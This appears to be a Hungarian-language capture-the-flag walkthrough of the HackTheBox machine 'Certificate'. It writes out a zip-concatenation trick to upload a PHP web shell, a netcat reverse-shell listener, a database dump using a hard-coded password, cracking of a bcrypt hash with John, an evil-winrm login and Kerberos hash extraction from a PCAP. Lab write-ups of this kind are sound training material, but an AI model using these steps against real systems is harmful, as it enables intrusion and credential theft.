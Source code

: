```bash
zip head.zip test.pdf
zip -r tail.zip nosechere   # nosechere/shell.php
cat head.zip tail.zip > main.zip
```

4. Töltsd fel a `main.zip`-et
5. Tallózd a shellt:

```
http://certificate.htb/static/uploads/[...]/nosechere/shell.php
```

6. Netcattel figyelj:

```bash
nc -lvnp 4444
```

Shell elérés: `xamppuser`

## Lábnyomozás: Adatbázis elérés

Futtatás:

```cmd
.\mysql.exe -u certificate_webapp_user -p"cert!f!c@teDBPWD" -e "use certificate_webapp_db; select * from users;"  -E
```

Kiemelt user:

- username: `sara.b`
- bcrypt hash: `$2y$04$CgDe/Thzw/Em/M4SkmXNbu0YdFo6uUs3nB.pzQPV.g8UdXikZNdH6`

### Hash törése

```bash
john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
```

**Jelszó: `Bl******`**

### WinRM hozzáférés

```bash
evil-winrm -i 10.10.11.71 -u Sara.B -p 'Bl******'

```
> **Fontos!**  
> A HTB 2025. június 10-én patchelte a jelszóváltoztatási lehetőséget lion.sk felett, ezért mást utat kell választani!

## PCAP elemzés – Kerberos hash

- `WS-01_PktMon.pcap` (Kerberos forgalom)
- A PCAP fájlban egy TGS-REQ látható, ahol Lion.SK kért ticketet. Ez használható Kerberoastinghoz, ha a szolgáltatás SPN-nel van regisztrálva. A Krb5RoastParser direkt AS-REQ vagy TGS-REQ hash-t szed ki.
- `Krb5RoastParser` használat:
>  https://github.com/jalvarezz13/Krb5RoastParser
